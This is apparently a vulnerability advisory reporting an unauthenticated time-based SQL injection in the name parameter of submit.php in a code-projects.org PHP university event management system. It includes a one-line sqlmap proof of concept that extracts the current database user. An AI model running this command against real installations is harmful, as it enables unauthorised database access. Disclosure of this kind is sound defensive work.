 # University Event Management System IN PHP SQL INJECTION

##  Manufacturers

https://code-projects.org/

## PRODUCT NAME

##  Product Vendor

https://code-projects.org/university-event-management-system-in-php-css-javascript-and-mysql-free-download/

### Software Link

https://download.code-projects.org/details/25781c48-4c9f-495e-a56f-fd8b78652542

## Affected Compoent

### Vulnerable File

submit.php

###  VERSION(S)

-  php and v1

## Vulnerability Type

sleep time sql injection

## Attacted Type

Remote Network			

## **Description of the vulnerability**

  University Event Management System IN PHP has a SQL injection vulnerability that does not require login. There is a name parameter in the submit.php that can be used to construct SQL injection payload                                                                                                                                                                                                                                                                                                                                                                           

![image-20241101015439003](https://github.com/user-attachments/assets/1722f3b2-6975-41de-b5aa-4c3e0ed3d67d)

## Recurrence

### POC

```
python sqlmap.py -u "http://events-management-system-master/submit.php?name=1" -p "name" --current-user
```

### RESULT

get current user from databases. or get other information.

![image-20241031233147482](https://github.com/user-attachments/assets/be892c1a-918d-4fd7-a956-a2c8d109a688)
